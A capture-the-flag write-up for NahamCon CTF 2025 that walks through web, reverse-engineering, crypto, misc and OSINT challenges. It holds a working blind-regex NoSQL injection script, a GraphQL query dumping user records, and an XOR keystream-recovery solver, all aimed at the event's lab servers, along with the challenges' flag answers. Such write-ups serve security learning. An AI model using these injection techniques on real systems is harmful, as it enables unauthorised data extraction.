




# Writeup NahamCon CTF 2025 - G3n0s

## Table of Contents

### Web Exploitation
1. [Naham-Commencement 2025](#Naham-Commencement-2025)
2. [NoSequel](#NoSequel)
3. [SNAD](#SNAD)
4. [Method In The Madness](#Method-In-The-Madness)
5. [The Mission (Group Challenge)](#The-Mission-(Group-Challenge))

   i. [The Mission-Flag #1](#The-Mission-Flag-#1)
   
   ii. [The Mission-Flag #4](#The-Mission-Flag-#4)
   
   ii. [The Mission-Flag #6 (Bonus)](#The-Mission-Flag-#6-(Bonus))

### Reverse Engineering
1. [What's a base amongst friends?](#What's-a-base-amongst-friends?)

### Cryptography
1. [Cryptoclock](#Cryptoclock)

### Misc
1. [The Oddyssey](#The-Oddyssey)
2. [The Martian](#The-Martian)
3. [Screenshot](#Screenshot)

### Osint
1. [Taken to School](#Taken-to-School)

---

## Web Exploitation

### Naham-Commencement 2025
> Author: @HuskyHacks

### Description
> I don't believe in updating my computer, it just takes so long! Besides, no one could ever hack me, I use good passwords!
> 
> Welcome, Naham-Hacker Class of 2025! This challenge is your official CTF opening ceremony. Enjoy the CTF, play fair, play smart, and get those flags! BEGIN! 📯
> 
> (True story: NahamSec originally contracted me to built the actual NahamCon site. I showed this to him as a prototype and he said "you know, let's actually move you to the CTF dev team...")
> 
> NOTE, we have noticed an odd gimmick with this challenge -- if you seem to repeatedly see a message An error occurred while processing your request., try changing how you connect to the Internet in case any provider oddities are getting in the way.
> 
> http://challenge.nahamcon.com:31977


### Solution

Saw this line of the code in main.js

```bash
document.addEventListener('DOMContentLoaded', function () {
    const x1 = "dqxqcius"; //username
    const x2 = "YeaTtgUnzezBqiwa2025"; //password
    const k = "nahamcon"; // most likely a key
```

dqxqcius (Caesar cipher)


YeaTtgUnzezBqiwa2025 + nahamcon (Vigenere cipher)


login with the credentials


Flag:
```bash
flag{c419dfe3a0a621edc0150a133bb7a34c}
```

---

### NoSequel
>Author: @HuskyHacks


### Description
> It always struck me as odd that none of these movies ever got sequels! Absolute cinema.
> 
>http://challenge.nahamcon.com:32138

### Solution


It says that the queries will NOT work on the Movies collection but WILL work on the Flags collection
So, we need to steal the secret flag stored as a document in the Flags collection.

Using blind‐regex NoSQL injection against the Flags collection, you can fully reconstruct the hidden flag and complete the challenge.

solve.py
```bash
import requests
import string

URL = "http://challenge.nahamcon.com:32138/search"
CHARSET = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_{}"

def matches(prefix):
    # build the regex query for “does flag start with prefix?”
    query = f'flag: {{$regex: "^{prefix}"}}'
    data = {"collection": "flags", "query": query}
    r = requests.post(URL, data=data)
    return "Pattern matched" in r.text

flag = ""
# we know it starts “flag{”
flag = "flag{"

while not flag.endswith("}"):
    for c in CHARSET:
        if matches(flag + c):
            flag += c
            print("Found so far:", flag)
            break
    else:
        print("No match found for next character? Something’s off.")
        break

print("Complete flag:", flag)

// Found so far: flag{4cb8649d9ecb0ec59d1784263602e686{
```
Flag:
```bash
flag{4cb8649d9ecb0ec59d1784263602e686}
```

---

### SNAD
>Author: @HuskyHacks

### Description
>No, it's not a typo. It's not sand. It's SNAD. There's a difference!
>
>http://challenge.nahamcon.com:31136/

### Solution


The script.js attaches injectSand and other functions/variables to window, meaning they can be called directly from the browser console, like:

```bash

function setup() {
    createCanvas(windowWidth, windowHeight),
    resetGrid(),

    document.addEventListener("keydown", function(e) {
        "t" === e.key && (targetIndicatorsVisible = !targetIndicatorsVisible),
        "x" === e.key && toggleGravity()
    }),

    // These lines expose internal functions and variables to the global `window` object
    window.injectSand = injectSand,
    window.toggleGravity = toggleGravity,
    window.particles = particles,
    window.targetPositions = targetPositions,
    window.checkFlag = checkFlag
}
```
insert this into console and you’ll get the flag

```bash
injectSand(367, 238, 0)
injectSand(412, 293, 40)
injectSand(291, 314, 60)
injectSand(392, 362, 120)
injectSand(454, 319, 240)
injectSand(349, 252, 280)
injectSand(433, 301, 320)
```


Flag:
```bash
flag {6ff0c72ad11bf174139e970559d9b5d2} 
```

---

### Method In The Madness
>Author: BuildHackSecure @ HackingHub


### Description
>HackingHub has provided this CTF challenge!
>
>http://challenge.nahamcon.com:32500

### Solution


By looking at its name of the challenge and the checkboxes it makes me think of http methods so I made a script to try all http methods

```bash
import requests

URL = "http://challenge.nahamcon.com:32500/interesting"  # replace with actual URL

methods = ['GET', 'POST', 'PUT', 'DELETE', 'PATCH', 'OPTIONS', 'HEAD', 'TRACE']

for method in methods:
    response = requests.request(method, URL)
    print(f"{method} → {response.status_code}")
    try:
        print(response.text)
    except:
        print("[Non-text response]")
```


And there we go we got the flag

```bash
flag{bd399cb9c3a8b857588d8e13f490b6fd}
```

---

### The Mission (Group Challenge)
>Author: BuildHackSecure @ HackingHub

### Description
>HackingHub has provided this CTF challenge!
>
>This is the container control panel card for the The Mission challenge group. Use this same container for all five flags to be uncovered. For that reason, this challenge card intentionally has no points. You may submit flag{} to mark this as complete at your leisure.
>
>Welcome to the BugBounty platform, you've submitted a report for Yahoo but oh no!! So has STÖK and it looks like you're going to get dupped!
>
>Hack into the platform and change STÖK's report to duplicate first so you can grab the bounty!
>
>You can login with the follow details:
>
>Username: hacker
>
>Password: password123
>
>Submit the first flag you uncover within this challenge.
>
>http://challenge.nahamcon.com:31630/


### The Mission - Flag #1

### Solution

messed around with the url and I put /robots.txt and got the flag


```bash
flag_1{858c82dc956f35dd1a30c4d47bcb57fb}
```

---

### The Mission - Flag #4

### Solution


I saw that there is an exposure of GraphQL so I tried to get the database

```bash
curl -s -X POST http://challenge.nahamcon.com:31630/api/v2/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ users { id username email } }"}' \
  | jq -r '.data.users[] | "ID: \(.id) | Username: \(.username) | Email: \(.email)"'
```

and i got this

```bash
ID: 359fb73c-cbe8-4b1b-b7d9-fa26c4ed1f0b | Username: nahamsec | Email: nahamsec@bugbounty.ctf
ID: 5b2d7302-a424-4c41-9412-b378acedda08 | Username: rhynorater | Email: rhynorater@bugbounty.ctf
ID: 15ee453d-18c7-419b-a3a6-ef8f2cc1271f | Username: stok | Email: flag_4{253a82878df615bb9ee32e573dc69634}
ID: 4d513e52-a79a-417a-8199-cc091220f340 | Username: shubs | Email: shubs@bugbounty.ctf
ID: bbccd010-bbd0-4b48-9c34-f4e151c4d9e4 | Username: fattselimi | Email: fattselimi@bugbounty.ctf
ID: 30ec2071-eb96-4785-9a9a-c79b438f6181 | Username: insiderphd | Email: insiderphd@bugbounty.ctf
ID: cbba1083-0b54-4b66-aafd-350eea037d38 | Username: inti | Email: inti@bugbounty.ctf
ID: 874d18fc-3479-4cae-a915-01b0bb7a6c49 | Username: renniepak | Email: renniepak@bugbounty.ctf
ID: fd55a401-b110-4821-9155-add4653cb992 | Username: hacker | Email: hacker@bugbounty.ctf
```

Flag
```bash
flag_4{253a82878df615bb9ee32e573dc69634} 
```

---

### The Mission - Flag #6

### Solution



Asked for a hint from the bot and it says impersonation technique


And the bot sent this too


So I impersonated him

Flag
```bash
flag_6{9c2001f18f3b997187c9eb6d8c96ba60}
```

---


## Reverse Engineering

### What's A Base Amongs Friends ?
>Author: @Kkevsterrr


### Description
>What's a base amongst friends though, really?
>
>Attachments: whats-a-base

### Solution

Ran the file and it asked me to give a password


After analyzing the file extract the z-base-32 blob

```bash
strings -a whats-a-base \
  | grep -Eo '[ybndrfg8ejkmcpqxot1uwisza345h769]{50,}'

//rsm7xzr7muqtxsr3m8pfzf6h5ep738ez5ncftss7d1cftskz49qj4zg7n9cizgez5upbzzr7n9cjosg45wqjosg3mu
```

Decode it

```bash
echo -n m7xzr7muqtxsr3m8pfzf6h5ep738ez5ncftss7d1cftskz49qj4zg7n9cizgez5upbzzr7n9cjosg45wqjosg3mu \
  | tr 'ybndrfg8ejkmcpqxot1uwisza345h769' 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567' \
  | base32 –decode

// __rust_begin_short_backtrace__rust_end_short_backtraces
```
Run the file and put the decoded password


Flag
```bash
flag{50768fcb270edc499750ea64dc45ee92}  
```

---

## Cryptography

### Cryptolock
>Author: @JohnHammond

### Description
>Just imagine it, the Cryptoclock!! Just like you've seen in the movies, a magical power to be able to manipulate the world's numbers across time!!
>
>nc challenge.nahamcon.com 31927
>
>Attachments: server.py

### Solution

```bash
(base) ┌─[✗]─[@parrot]─[~/Desktop]
└──╼ $nc challenge.nahamcon.com 31927
Welcome to Cryptoclock!
The encrypted flag is: 9b10822569980148af9bd9ba7b06ea10d30ab972f9078e1e9afd0226b0c8008dfba47e89a0b9
Enter text to encrypt (or 'quit' to exit):
```

solve.py
```bash
#!/usr/bin/env python3
import socket
import sys

HOST = 'challenge.nahamcon.com'
PORT = 31927

def xor_bytes(a: bytes, b: bytes) -> bytes:
    return bytes(x ^ y for x, y in zip(a, b))

def recv_until(sock, delim=b'\n') -> bytes:
    buf = b''
    while not buf.endswith(delim):
        chunk = sock.recv(1)
        if not chunk:
            raise RuntimeError("Connection closed")
        buf += chunk
    return buf

def main():
    s = socket.create_connection((HOST, PORT))
    # 1) Read welcome & encrypted flag line
    #    Welcome to Cryptoclock!
    recv_until(s)  
    line = recv_until(s)  # "The encrypted flag is: efdc13...<newline>"
    # parse hex
    prefix = b"The encrypted flag is: "
    assert line.startswith(prefix)
    enc_flag_hex = line[len(prefix):].strip()
    enc_flag = bytes.fromhex(enc_flag_hex.decode())
    flag_len = len(enc_flag)

    # skip the "Enter text to encrypt..." prompt
    recv_until(s)

    # 2) Send zero‐bytes payload to recover keystream
    payload = b'\x00' * flag_len
    s.sendall(payload + b'\n')

    # 3) Read back "Encrypted: <hex>"
    resp = recv_until(s)
    assert resp.startswith(b"Encrypted: ")
    ks_hex = resp.split(b"Encrypted: ",1)[1].strip()
    keystream = bytes.fromhex(ks_hex.decode())
    assert len(keystream) == flag_len

    # 4) XOR to get flag
    flag = xor_bytes(enc_flag, keystream)
    print("Recovered flag:", flag.decode())

    s.close()

if __name__ == '__main__':
    main()

// Recovered flag: flag{0e42ba180089ce6e3bb50e52587d3724}
```

Flag
```bash
flag{0e42ba180089ce6e3bb50e52587d3724}
```

---

## Miscellaneous

### The Oddyssey
>Author: @HuskyHacks

### Description
>Remember reading The Odyssey in high school? Well I sure don't, because I never did my homework. But I really wanted to get back into the classics and give it a fair shake. The problem is I have a fourth grade reading level and that book is waaaaaay too long.
>
>To solve this, I made a server that reads out tiny chunks of The Odyssey, one at a time, so I can take my time reading it! How is Odysseus gonna get himself out of this one?
>
>nc challenge.nahamcon.com 32441

### Solution



Press continue until the end and search for the flag


Flag
```bash
flag{0b51aae6b09b85d1bb13b0b8c3003a6a} 
```

---

### The Martian
>Author: @John Hammond

### Description
>Wow, this file looks like it's from outta this world!
>
>Attachments: challenge.martian

### Solution

Checked binwalk and extract all the files

```bash
(base) ┌─[@parrot]─[~/Desktop]
└──╼ $binwalk -e challenge.martian

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
52            0x34            bzip2 compressed data, block size = 900k
12511         0x30DF          bzip2 compressed data, block size = 900k
32896         0x8080          bzip2 compressed data, block size = 900k
38269         0x957D          bzip2 compressed data, block size = 900k
50728         0xC628          bzip2 compressed data, block size = 900k
```

And extracted an image with the flag


Flag
```bash
flag {0db031ac265b3e6538aff0d9f456004f}
```

---

### Screenshot
>Author: @John Hammond

### Description
>Oh shoot! I accidentally took a screenshot just as I accidentally opened the dump of a flag.zip file in a text editor! Whoopsies, what a crazy accidental accident that just accidented!
>
>Well anyway, I think I remember the password was just password!
>
>Attachments:  Screenshot.png

### Solution



Copy paste the hex


Put it in cyberchef and save as zip file



You,ll get a flag file

Flag

```bash
flag{907e5bb257cd5fc818e88a13622f3d46}
```

---

## Osint

### Taken to School
>Author: @Jstith

### Description
>"I was reading the news this week, and I saw that a student tried to hack a school's computer system!" a worried professor remarked to an IT employee during lunch. "I'm glad we've got people like you keeping our network safe." While Bob the IT admin appreciated the warm comment, his stomach dropped. "Dang it.. I haven't checked that firewall since we set it up months ago!".
>
>IT has pulled a log file of potentially anomalous events detected by the new (albeit poorly tuned) network security software for your school. Based on open-sourced intelligence (OSINT), identify the anomalous entry in the file.
>
>Each log entry contains a single line, including an MD5 hash titled eventHash.
>
>The challenge flag is flag{MD5HASH} containing the eventHash of the anomalous entry.
>
>Attachments: network-log.cef

### Solution


This is what is inside the network-log.cef

check each src IP if malicious with VirusTotal API,

I tried almost all of the malicious IP and the flag is the event with IP 91.218.50.11,

```bash
2024-12-22T15:07:40 CEF:0|PaloAltoNetworks|PAN-OS|8.3|44985|Trojan Signature Match|9|src=91.218.50.11 dst=192.168.113.2 spt=27660 dpt=443 proto=HTTPS act=allowed fileName=chemistry_notes.pdf eventHash=5b16c7044a22ed3845a0ff408da8afa9 cs1Label=threatType cs1=trojan
```

Flag

```bash
flag{5b16c7044a22ed3845a0ff408da8afa9}
```

---
